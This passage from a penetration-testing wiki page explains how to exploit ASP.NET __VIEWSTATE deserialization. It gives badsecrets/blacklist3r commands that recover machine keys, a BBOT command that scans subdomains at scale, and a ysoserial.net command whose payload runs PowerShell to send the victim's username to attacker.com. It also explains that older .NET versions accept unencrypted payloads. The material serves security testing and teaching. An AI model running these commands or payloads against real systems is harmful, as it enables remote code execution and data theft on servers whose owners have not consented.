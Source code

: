 It can either be supplied with the viewstate and generator directly:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```
```
![[https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png|https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png]]

Or, it can connect directly to the target URL and try to carve the viewstate out of the HTML:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```
```
![[https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png|https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png]]

To search for vulnerable viewstates at scale, in conjunction with subdomain enumeration, the `badsecrets` [[exploiting-__viewstate-parameter.md|**BBOT**]] module can be used:

```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```
```
![[https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png|https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png]]

If you are lucky and the key is found,you can proceed with the attack using [[https://github.com/pwntester/ysoserial.net|**YSoSerial.Net**]]**:**

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```
```
In cases where `_VIEWSTATEGENERATOR` parameter **isn't sent** by the server you **don't** need to **provide** the `--generator` parameter **but these ones**:

```bash
--apppath="/" --path="/hello.aspx"
```
```
### Test Case: 3 – .Net < 4.5 and EnableViewStateMac=true/false and ViewStateEncryptionMode=true

In this it's not known if the parameter is protected with MAC. Then, the value is probably encrypted and you will **need the Machine Key to encrypt your payload** to exploit the vulnerability.

**In this case the** [[https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper|**Blacklist3r**]] **module is under development...**

**Prior to .NET 4.5**, ASP.NET can **accept** an **unencrypted** \_`__VIEWSTATE`\_parameter from the users **even** if **`ViewStateEncryptionMode`** has been set to _**Always**_. ASP.NET **only checks** the **presence** of the **`__VIEWSTATEENCRYPTED`** parameter in the request. **If one removes this parameter, and sends the unencrypted payload, it will still be processed.**

```